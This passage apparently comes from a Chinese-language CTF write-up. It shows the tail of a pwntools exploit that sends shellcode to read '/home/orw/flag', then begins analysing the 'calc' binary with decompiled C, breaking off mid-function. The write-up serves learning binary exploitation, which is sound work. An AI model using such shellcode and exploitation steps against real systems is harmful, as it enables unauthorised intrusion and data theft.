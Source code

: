 ```python
int 0x80;
'''
pd = asm(s)+b'/home/orw/flag\x00'
p.send(pd)
print p.recv()

p.interactive()
```



### 3.calc

没做出来，看其他师傅的wp复现（深刻发现自己的代码审计有多菜，，不是见过的套路题就很难找到洞

比想象中难，看了其他师傅的博客找到漏洞点后，要完成利用还想了好久

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gk8nkji4ibj31x602saaj.jpg)

ida看伪代码

![](https://tva1.sinaimg.cn/large/0081Kckwly1gk8nks8m1pj31do0u0qbc.jpg)

跟进calc函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gk8nr52o2vj31dk0u048j.jpg)

这里的bzero函数看不懂，但是根据调试和函数名称可以猜到其功能是将这段s往后0x400字节区域清零

可以看到一个小细节：int类型v1的下一个地址就是v2数组

然后是get_expr函数，第二个参数是v1的地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gk8nr5w2nqj31dd0u0k0g.jpg)

获取输入，除了"+-*/%"和数字以外都过滤掉，存放在a1中

然后是init_pool函数，也是清零的作用

然后是最主要的parse_expr函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gk8nr6x19oj30u0154n9h.jpg)

a1数组是过滤后的输入的内容，每次循环i都是a1数组上符号的下标，v5则指向每个数字的第一个数字字符

这个函数的逻辑大概是

```c
if ( (unsigned int)(*(char *)(i + a1) - 0x30) > 9 )
    {
      v2 = i + a1 - v5;
      s1 = (char *)malloc(v2 + 1);
      memcpy(s1, v5, v2);
      s1[v2] = 0;
      if ( !strcmp(s1, "0") )
      {
        puts("prevent division by zero");
        fflush(stdout);
        return 0;
      }
      v9 = atoi(s1);
      if ( v9 > 0 )
      {
        v4 = (*a2)++;
        a2[v4 + 1] = v9;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
```